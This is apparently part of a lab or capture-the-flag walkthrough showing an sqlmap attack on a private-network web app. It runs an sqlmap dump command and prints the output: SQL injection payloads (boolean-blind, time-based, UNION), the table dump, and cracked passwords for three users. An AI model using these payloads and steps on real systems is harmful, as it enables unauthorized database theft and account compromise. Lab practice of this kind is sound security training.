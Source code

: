 ### SQLMap Dump Hahes + Crack hashes

{% highlight bash %}
sqlmap -u "http://192.168.30.147/index.html?page=blog&title=Blog&id=2" -p id -D ehks -T user  --dump
{% endhighlight %}


{% highlight bash %}

_
___ ___| |_____ ___ ___  {1.0-dev-nongit-20150826}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
|_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 12:15:25

[12:15:25] [INFO] resuming back-end DBMS 'mysql'
[12:15:25] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause
Payload: page=blog&title=Blog&id=2 AND 7114=7114

Type: AND/OR time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
Payload: page=blog&title=Blog&id=2 AND (SELECT * FROM (SELECT(SLEEP(5)))kOtW)

Type: UNION query
Title: Generic UNION query (NULL) - 5 columns
Payload: page=blog&title=Blog&id=2 UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7162707871,0x4f75614351414f4d6e69,0x7176717671),NULL--
---
[12:15:25] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Fedora 5 (Bordeaux)
web application technology: Apache 2.2.0, PHP 5.1.2
back-end DBMS: MySQL 5.0.12
[12:15:25] [INFO] fetching columns for table 'user' in database 'ehks'
[12:15:25] [INFO] fetching entries for table 'user' in database 'ehks'
[12:15:25] [INFO] analyzing table dump for possible password hashes
[12:15:25] [INFO] recognized possible password hashes in column 'user_pass'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N]
do you want to crack them via a dictionary-based attack? [Y/n/q]
[12:15:34] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
>
[12:15:35] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N]
[12:15:36] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[12:15:36] [INFO] starting 4 processes
[12:15:37] [INFO] cracked password 'Homesite' for user 'pmoore'                                                                                                                       
[12:15:38] [INFO] cracked password 'Sue1978' for user 'jdurbin'                                                                                                                       
[12:15:39] [INFO] cracked password 'ilike2surf' for user 'dstevens'                                                                                                                   